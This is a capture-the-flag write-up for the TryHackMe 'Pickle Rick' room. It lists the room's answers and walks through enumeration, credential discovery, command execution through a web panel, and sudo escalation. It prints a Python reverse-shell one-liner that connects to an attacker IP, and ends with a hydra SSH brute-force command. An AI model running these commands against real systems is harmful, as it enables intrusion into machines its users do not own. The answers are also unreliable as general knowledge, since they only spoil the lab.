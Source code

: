 https://tryhackme.com/room/picklerick

Declarations:

1. IP: 10.10.128.67
2. Web App: https://10-10-128-67.p.thmlabs.com/

Questions:

1. What is the first ingredient Rick needs?
2. Whats the second ingredient Rick needs?
3. Whats the final ingredient Rick needs?

Method:

1. nmap Scan ``nmap -sC -sV -oN nmap/inital 10.10.252.198``
2. Browse the Webapp -> There is the Username ``R1ckRul3s`` as comment in the Sourceode
3. search directory ``gobuster dir -u https://10-10-252-198.p.thmlabs.com/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css`` gives us 
	1. /assets
	2. /server-status
	3. /index.html
	4. /portal.php
	5. /robots.txt
4. Browse the findings. In the robots.txt we find ``Wubbalubbadubdub`` and in /portal.php we can login with ``R1ckRul3s`` and this as password
	1. using ``ls`` in the Commands Prompt we find the ``Sup3rS3cretPickl3Ingred.txt`` File. Using ``cat Sup3rS3cretPickl3Ingred.txt`` doesnt work. Using ``less Sup3rS3cretPickl3Ingred.txt`` gives us the first Ingredient: ``mr. meeseek hair``
	2. Using ``grep -R .`` and ``View Sourcecode`` we can see all of the files data
	3. Probing around like ``nc --version`` ``python --version`` ``python3 --version`` we get a hit with python3
	4. So we can create a Reverseshell using Python3. Copying the One Liner from Pentestmonkey and executing it ``python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.235.225",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`` we get access per SSH
	5. Browsing around again we find ``sudo su`` working and navigating to ``cd ~`` we find the 3rd Ingredient ``fleeb juice``
	6. The last Ingredient is hidden in ``/home/rick`` and can be accessed with ``cat *``


``hydra -t 4 -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt -vV 10.10.252.198 ssh`` 
